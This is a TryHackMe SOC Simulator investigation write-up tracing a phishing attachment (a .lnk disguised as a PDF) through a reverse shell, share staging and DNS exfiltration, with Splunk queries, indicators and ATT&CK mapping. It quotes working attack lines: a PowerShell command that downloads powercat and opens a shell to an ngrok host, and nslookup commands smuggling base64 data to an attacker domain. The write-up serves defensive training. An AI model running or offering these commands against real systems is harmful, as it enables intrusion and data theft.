





# DNS Exfiltration Investigation: Phishing to Confirmed Data Theft

**Environment:** TryHackMe SOC Simulator
**Result:** Confirmed compromise, single host, financial data exfiltrated

---

## What happened

This started as a routine "suspicious email" alert — low severity, nothing unusual on the surface. By the end of the investigation it turned into a full kill chain: a phishing email delivered a fake PDF that was actually a malicious shortcut, which opened a reverse shell back to the attacker, who then mapped a financial records share, staged the data, and exfiltrated it by hiding it inside DNS lookups.

The whole thing — from the zip landing on disk to the C2 connection going live — took **14 seconds**.

## How I found it

I was working through a queue of alerts and hit one for a phishing email with an attachment (`ImportantInvoice-Febrary.zip` — note the misspelling, that ended up being a pattern worth remembering). The email used classic urgency language: account suspension, legal action, 24 hours to respond.

Since there was an attachment this time, I went to hash it before doing anything else — that's the safer habit over uploading a file directly to a sandbox. But `Get-FileHash` kept failing:



Took me a minute to realize why: the file inside the zip wasn't actually a PDF at all. File Explorer showed the "Type" column as **Shortcut**, not PDF Document. Windows hides file extensions by default, so it displayed as `invioce.pdf` when the real name was `invioce.pdf.lnk` — a shortcut disguised as a document. Classic malware delivery trick.



## Pivoting in Splunk

Once I had that, I went into Splunk to trace what actually happened when the file was opened. The key move here was pulling everything tied to the same `process.parent.pid` — that let me follow the entire chain from one PowerShell process instead of hunting for pieces separately.

```spl
index=* process.parent.pid=3728
```

That single search surfaced the whole story:

| Time | Event |
|---|---|
| 13:29:12 | Outlook writes the zip to disk (email received/previewed) |
| 13:29:23 | Explorer extracts it — the `.lnk` file appears |
| 13:29:26 | PowerShell fires and connects out to the attacker |





The PowerShell command launched by the shortcut:

```powershell
IEX(New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');
powercat -c 2.tcp.ngrok.io -p 19282 -e powershell
```


That line downloads a hacking tool called powercat straight from GitHub and runs it **in memory** — nothing gets saved to disk, which is exactly why this kind of attack slips past traditional antivirus. Once it runs, it opens a connection out to `2.tcp.ngrok.io`, and the attacker now has a live PowerShell shell on the machine.

## What the attacker did next

After getting in, the usual recon commands showed up — `systeminfo`, `whoami /priv`, `net user`, `net localgroup`, and a PowerView script for mapping out the domain. Nothing surprising, this is the standard "figure out where I landed" phase.

Then things got more serious:

```powershell
net use Z: \\FILESRV-01\SSF-FinancialRecords
```

The attacker mapped a drive directly to a financial records share. About a minute later:

```powershell
Robocopy.exe . C:\Users\michael.ascot\downloads\exfiltration /E
net use Z: /delete
```

Files got copied into a folder literally named "exfiltration" (not subtle), zipped up as `exfilt8me.zip`, and the share was disconnected — a basic cleanup step.

## The exfiltration part — this was the interesting bit

Instead of just uploading the zip somewhere obvious, the attacker broke it into small chunks and sent it out disguised as DNS lookups:

```
nslookup.exe UEsDBBQAAAAIANigLlfVU3cDIgAAAI.haz4rdw4re.io
nslookup.exe RmYjEyNGZiMTY1NjZlfQ==.haz4rdw4re.io
nslookup.exe 8AAAAbAAAAQ2xpZW50UG9ydGZvbGlv.haz4rdw4re.io
...
```

I counted 10 of these total from the same PowerShell session. DNS traffic usually isn't inspected as closely as HTTP or email, so this is a genuinely effective way to sneak data out without tripping normal detection.

To figure out what was actually being stolen, I decoded each chunk in CyberChef (had to fix my recipe first — I'd accidentally chained "From Base64" into "To Base64," which just re-encoded the output into garbage. Once I removed that second step, things started making sense).

Some chunks decoded to plain binary — that's the compressed zip content itself, expected and not useful on its own. But a few decoded cleanly to filenames:

- `ClientPortfolio`
- `Summary.xlsx`

And one filename had to be pieced together from two separate chunks — one gave me `Investor` (garbled at first, decoded properly on a retry), the next gave `tation2023.pptx`. Put together: `InvestorPresentation2023.pptx`.

One of the chunks also contained the lab's flag, split across two lookups — confirming the decoding approach was correct.

## Checking the scope

Last thing before closing this out — I needed to know if this was contained to one machine or if it had spread:

```spl
index=* "haz4rdw4re.io" | stats count by host.name
```

Only `win-3450` showed up. Contained to a single host, which made the response a lot more straightforward than a multi-host compromise would've been.

## What I'd flag for remediation

- Isolate win-3450 immediately
- Block `haz4rdw4re.io` and the ngrok tunnel endpoint
- Reset credentials for the affected account (it was a domain account, `SSF\michael.ascot`, not local — worth checking for reuse elsewhere)
- Preserve the host for forensics before wiping/rebuilding
- Notify whoever owns the financial records data — this is a confirmed breach, not just an attempted one

## Indicators

| Type | Value |
|---|---|
| Host | win-3450 |
| User | SSF\michael.ascot |
| Phishing sender | john@hatmakereurope.xyz |
| Malicious attachment | ImportantInvoice-Febrary.zip → invioce.pdf.lnk |
| C2 domain | haz4rdw4re.io |
| C2 tunnel | 2.tcp.ngrok.io:19282 |
| Payload source | raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1 |
| Compromised share | \\FILESRV-01\SSF-FinancialRecords |
| Data taken | ClientPortfolio, Summary.xlsx, InvestorPresentation2023.pptx |

## MITRE ATT&CK mapping

| Stage | Technique | ID |
|---|---|---|
| Initial Access | Spearphishing Attachment | T1566.001 |
| Execution | User Execution: Malicious File | T1204.002 |
| Execution | PowerShell | T1059.001 |
| Command and Control | Ingress Tool Transfer | T1105 |
| Command and Control | Protocol Tunneling (ngrok) | T1572 |
| Discovery | System Information Discovery | T1082 |
| Discovery | Account Discovery | T1087 |
| Discovery | Permission Groups Discovery | T1069 |
| Collection | Data from Network Shared Drive | T1039 |
| Collection | Archive Collected Data | T1560 |
| Command and Control | Application Layer Protocol: DNS | T1071.004 |
| Exfiltration | Exfiltration Over Alternative Protocol | T1048 |

## What I took away from this

The extension-hiding trick is a good reminder to never trust what Windows shows you by default — check the actual file type, not the displayed name. It also explains why my hash attempt failed at first: I was hashing the name Windows *showed* me, not the real file.

The other thing that stuck with me: DNS tunneling worked because nobody was watching DNS as closely as everything else. It's a genuinely simple technique once you see it, but easy to miss if you're not specifically looking for oddly long subdomains going to a domain you don't recognize.

